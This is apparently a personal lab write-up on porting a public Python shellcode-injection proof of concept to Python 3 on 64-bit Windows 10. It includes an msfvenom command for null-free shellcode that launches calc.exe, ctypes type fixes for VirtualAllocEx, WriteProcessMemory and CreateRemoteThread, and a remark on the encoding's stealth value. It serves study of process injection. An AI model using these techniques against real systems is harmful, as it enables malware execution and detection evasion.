




# python shellcode injection
## porting python2 32bit shellcode injection example to Windows 10 and python3 
Since I wanted to gain some insights into code injection and I wasn't familiar with the Windows API, I thought doing this in Python would be easier. Turns out you can achieve the same in C++ with less issues because there are plenty of examples on how to do simple code injection with VirtualAllocEx and CreateRemoteThread out there. Some of the problems encountered have to do with how `ctypes`, the python library for foreign function calls, interacts with Windows DLLs and which types it uses by default. 

Still, if you are not too familiar with the subject this can serve as a good introduction into process injection and debugging the procedure, as well as a mini intro to the Windows API.

Initially, this post made me want to try this in python https://www.andreafortuna.org/2018/08/06/code-injection-on-windows-using-python-a-simple-example/

## Setup - more or less
With my currently active VirtualBox Windows VMs, the next best thing I had to a development environment for this little project was the `Victim`-VM running Windows 10 of Malware Unicorns excellent `Reverse Engineering 101 / 102` course (check them out, they are free - also look up Azeria and Maddiestone who also got great self study materials).
This VM was pretty much usable right out of the box. It had pre installed `Process Hacker`, `x64dbg`, `VSCode` and `python3` on a Win10 VM.
Other alternatives include the windows 10 developer VM with some additional tooling or something like FlareVM.

The Shellcode Injection PoC I was using was from `fdiskyou` and is available as a gist from here: 

https://gist.github.com/fdiskyou/557bf139ceb5c1b95b9eb4cb5d9167d2

How to execute it? Open powershell in the script location with shift rightclicking and then enter the path to python followed by the script. With my example setup this was:
 `C:\Users\IEUser\AppData\Local\Programs\Python\Python37\python.exe .\code_injection.py <PID>`


## Running the script 

When running the script out of the box, the first problem encountered with python3 is obviously print related. Fixing this is as simple as adding brackets around the print string.

Afterwards the first real problem can be encountered:
```s
Traceback (most recent call last):
  File ".\code_injection.py", line 51, in <module>
    kernel32.WriteProcessMemory(h_process, arg_address, shellcode, len(shellcode), byref(written))
ctypes.ArgumentError: argument 3: <class 'ValueError'>: embedded null character
```
From a bit of digging into the issue it seems that behaviour in `ctypes` was changed somewhere around python 3.6 and embedded null characters are no longer accepted, even when a size for the buffer has been set. 
In order to avoid the issue we can simply generate new shellcode that XORs the shellcode so that there are no null characters embedded. This is also a basic obfuscation technique that might fulfill basic requirements on stealthiness - depending on your use case.

Generating the code is done by specifying bad bytes in msfvenom. The shellcode can then be generated as follows:
```s
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -b '\x00' -f python
```

The generated code opens calc.exe and exits the current thread. 

When replacing the shellcode from the POC with this one and executing the python script, it crashes the process. In my case plain old notepad was the victim.

## Investigating the crash
In order to debug the crash, I started with looking into each step of the injection in a debugger.
If we break down the injection then it consists of the following steps:

1. acquire handle to process
2. allocate memory 
3. write memory
4. start new thread at memory

Since the injection code already has some basic error handling when one of the steps fails, we are most likely looking at a problem that is related the execution of our code. This would explain why we get the following output from the script:

```s
PS C:\Users\IEUser\Desktop\documentation_procInj> C:\Users\IEUser\AppData\Local\Programs\Python\Python37\python.exe .\code_injection.py 448
<class 'bytes'>
[*] code injection successfull (thread ID: 0x0000143c)
PS C:\Users\IEUser\Desktop\documentation_procInj>
```

So our injection seems to be successful but crashes the program. This is most likely because the started thread runs into an execution error, since no prior step reported any issues.

Lets look into it by adding some debug output. For this I added debug output similar to this after steps 1,2 and 3:

```s
print("arg_address ", hex(arg_address))
input("press enter to continue")
```

Obviously other variables were used as print output in the other steps.

Executing this leads to the following output:
```s
ocal\Programs\Python\Python37\python.exe .\code_injection.py 308
<class 'bytes'>
h_process  0x1d8
press enter to continue
arg_address  -0x1bb90000
press enter to continue
```

Hum, so arg_address, which is the location of the page that has been allocated, seems to be in the wrong format. Maybe this has to do with how the variable is displayed rather than being a problem with the allocation?!

When looking for the newly created page in memory, it can be found by searching for pages with read/write/execute permissions or `ERW` in x64dbg. Since this permission is uncommon for normal operations you can spot your page pretty easy through this.



You can see the marked page and how it has the ERW permissions. This permission stands out among other pages and it is uncommon for processes to rewrite pages that get executed / seeing Execute and Write permissions together. 

So from this we can gather that the allocation worked. Now we need to transform the address that was returned.

A simple way of converting from what seems to be a signed value to an unsigned is by adding 2^32 to it. If we do that for the printed value we get

```s
>>> hex(int(-0x1bb90000) + 2**32)
'0xe4470000'
```
The latter part does match but the address is not complete. From x64dbg we could find that `00000253E4470000` is the right address. 
__After a bit of digging I found out that I probably have to modify the return type of the function.__

We could continue with the execution of the script but since we got a wrong address we will most likely run into a problem when our thread gets started at that location.

Switching over to the log in x64dbg shows the following:


So I am unsure why exactly this address was picked and we ran into a problem at `0x007FFA2732FBFE` but this is outside of the addressing space that the highest memory location page in our program has, so that might be a factor.

## Modifying the return type to a 64 bit address
Changing the return type is actually really simple but comes with its own sets of problems.
The type can be changed by adding the following statement before the VirtualAllocEx Method
```py
kernel32.VirtualAllocEx.restype=c_void_p  # c_ulonglong
```
The return type can be either a pointer `c_void_p` or an unsigned longlong `u_longlong`. In this case, current win10 x64, both of these seem to be identical.

Running the script now returns:
```s
PS C:\Users\IEUser\Desktop\documentation_procInj> C:\Users\IEUser\AppData\Local\Programs\Python\Python37\python.exe .\code_injection.py 8076
<class 'bytes'>
h_process  0x1d8
press enter to continue
arg_address  0x27703400000
press enter to continue
Traceback (most recent call last):
  File ".\code_injection.py", line 85, in <module>
    kernel32.WriteProcessMemory(h_process, arg_address, shellcode, len(shellcode), byref(written))
ctypes.ArgumentError: argument 2: <class 'OverflowError'>: int too long to convert
PS C:\Users\IEUser\Desktop\documentation_procInj>
```

Ok, so now we get the right address returned, which is `0x27703400000`, but the WriteProcessMemory fails because the function expects argument 2 to be an int and it is longer than that.

Fixing this follows a similar approach as fixing the return type issue. We have to specify the argument types.

## Modifying argument types
First we might need to import certain windows specific types via `ctypes`.
This can be done as such
```s
from ctypes.wintypes import HANDLE, LPCVOID, LPVOID, DWORD
SIZE_T = c_size_t
```
There are loads of unique Windows types available. Further information on this can be taken from the [ctypes](https://docs.python.org/3/library/ctypes.html) and [windows data types](https://docs.microsoft.com/en-us/windows/win32/winprog/windows-data-types) documentation.

For `SIZE_T` you have to redefine c_size_t which is exported via the `ctypes` library.

Now to the argument types. To change them they have to be redefined. I haven't found a way to get the current types or change only a single type. So my workflow at first was looking up the expected types from the function documentation and setting them accordingly or using a type that sounded like it fits. This led to the following declarations that produced a running process injection: 
```s
kernel32.WriteProcessMemory.argtypes = [HANDLE, LPVOID, LPVOID, c_size_t, POINTER(c_int)]
kernel32.CreateRemoteThread.argtypes = [HANDLE, LPVOID, SIZE_T, LPVOID, LPVOID, SIZE_T, LPVOID]
```

After thinking about it a bit more and trying it out the following can also be used and needs way less additional effort in the form of lookups:
```s
kernel32.WriteProcessMemory.argtypes = [c_void_p, c_void_p, c_void_p, c_size_t, c_void_p]
kernel32.CreateRemoteThread.argtypes = [c_void_p, c_void_p, c_size_t, c_void_p, c_void_p, c_size_t, c_void_p]
```
This comes from most of the used types effectively being either a pointer or a size_t and helps to reduce the effort in redefining the argument types. 

## Running the injection script
Once everything is ported you can start the code and follow along with the changes in memory by attaching x64dbg on notepad.
After the allocation took place you can inspect the page either by finding it by its `ERW` permissions or by the memory address printed on the console.



Right clicking it and selecting follow in disassembler (or dump if you want to better compare your shellcode to the data on the page), pressing run in x64dbg and enter in the console continues the injection with the writeprocmem.



Continuing with the program leads to the shellcode being executed which in turn starts calc.exe!
